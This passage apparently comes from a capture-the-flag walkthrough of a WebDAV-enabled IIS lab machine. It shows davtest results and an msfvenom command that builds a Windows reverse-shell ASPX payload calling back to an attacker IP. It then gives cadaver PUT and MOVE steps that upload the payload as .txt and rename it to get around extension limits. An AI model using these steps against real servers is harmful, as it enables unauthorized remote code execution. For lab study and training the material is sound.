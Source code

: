 ```console
PUT	aspx	FAIL
********************************************************
 Checking for test file execution
EXEC	cfm	FAIL
EXEC	txt	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.txt
EXEC	php	FAIL
EXEC	jsp	FAIL
EXEC	html	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.html
EXEC	jhtml	FAIL
EXEC	pl	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.cfm
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.txt
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.php
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.jsp
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.html
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.jhtml
PUT File: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.pl
Executes: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.txt
Executes: http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.html

```
1st step is to craft the exploit with msfvenom. be sure to name the exploit with a .txt so we can upload it to the system.

```console
└──╼ [★]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.93 lport=1234 -f aspx -o exploit.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2728 bytes
Saved as: exploit.aspx
```
Then in cadaver we can use PUT and MOVE to upload and change the file type again.

```console
└──╼ [★]$ cadaver http://10.129.162.7
dav:/> ls
Listing collection `/': succeeded.
Coll:   _private                               0  Apr 12  2017
Coll:   _vti_bin                               0  Apr 12  2017
Coll:   _vti_cnf                               0  Apr 12  2017
Coll:   _vti_log                               0  Apr 12  2017
Coll:   _vti_pvt                               0  Apr 12  2017
Coll:   _vti_script                            0  Apr 12  2017
Coll:   _vti_txt                               0  Apr 12  2017
Coll:   aspnet_client                          0  Apr 12  2017
Coll:   images                                 0  Apr 12  2017
        _vti_inf.html                       1754  Apr 12  2017
        iisstart.htm                        1433  Feb 21  2003
        pagerror.gif                        2806  Feb 21  2003
        postinfo.html                       2440  Apr 12  2017
dav:/> PUT exploit.txt 
Uploading exploit.txt to `/exploit.txt':
Progress: [=============================>] 100.0% of 2728 bytes succeeded.
dav:/> MOVE exploit.txt exploit.aspx
Moving `/exploit.txt' to `/exploit.aspx':  succeeded.
dav:/> 
```
Now we just curl and set up our listener to get a shell back!